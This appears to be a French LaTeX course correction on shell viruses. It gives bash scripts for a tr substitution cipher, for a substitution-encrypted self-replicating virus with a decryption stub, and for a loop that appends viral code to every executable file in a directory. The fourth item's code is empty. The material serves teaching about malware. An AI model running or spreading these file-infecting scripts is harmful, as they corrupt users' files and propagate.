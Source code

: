 \documentclass[a4paper,11pt]{article}
\theoremstyle{plain}
\theoremstyle{definition}
\begin{document}
\begin{correction}
\begin{enumerate}
\item 
Nous effectuons les substitutions avec la commande tr: le petit script ci-dessous effectue une subsitution du fichier \texttt{\$1} encod\'ee dans \texttt{tab1}
\begin{verbatim}
tab0="abcdefghijklmnopqrstuvwxyz"
tab1="hijabcdefgmnopqrstuvwxyzkl"

#cat $1 | tr  ["$tab1"] ["$tab0"] > fichier-$$.txt
cat $1 | tr  ["$tab0"] ["$tab1"] > fichier-$$.txt
\end{verbatim}

\item  Nous appliquons cette technique pour améliorer le virus \texttt{vbashp.sh} chiffré par substitution, en le précédant d'un code de restauration.
\begin{verbatim}
#!/bin/bash

tab0="abcdefghijklmnopqrstuvwxyz"
tab1="hijabcdefgmnopqrstuvwxyzkl"

tail -n 11  $0 | tr  ["$tab1"] ["$tab0"] > fichier-$$.sh
#cat $1 | tr  ["$tab0"] ["$tab1"] > fichier-$$.txt
chmod u+x fichier-$$.sh
#./fichier-$$.sh # partie a decommenter si l'on veut une recopie
exit 0

#!/ifp/ihue

bjeq "jqab eqvb"

cqt f fp *.ue;
aq # rqwt vqwu nbu cfjefbtu hxbj n'bzvbpufqp ue
fc vbuv  "./$f" != "$0"; 
   vebp # uf jfinb != cfjefbt fpcbjvhpv bp jqwtu 
   vhfn -p 9 $0  >> $f; # hgqwv jqab aw xftwu 
cf
aqpb
\end{verbatim}
\item Le code suivant repond à la question

\begin{verbatim}
#!/bin/bash

tab0="abcdefghijklmnopqrstuvwxyz"
tab1="haigbcevrfwnyopjmqdstuxzkl"

#Overwritter I
for file in *; do #pour tout fichier
    if [ -x $file -a "$0" != "./$file" -a "$name" != "./$file" ]; then
	echo "infection de $file par ajout de partie virale chiffree"
        #On ajoute la partie firale chiffree
	tail -n 11  $0 | tr  ["$tab1"] ["$tab0"] >> $file
    fi
done
\end{verbatim}


\item Le code est donné ci-dessous: il y a une partie de restauration qui s'occupe de dechiffré la partie virale vers un fichier temporaire, en y ajoutant au prealable le nom du script infectant ainsi que la subsitution de chiffrement dechiffrement. 
\begin{verbatim}
#!/bin/bash


\end{verbatim}
\end{enumerate}
\end{correction}
\end{document}

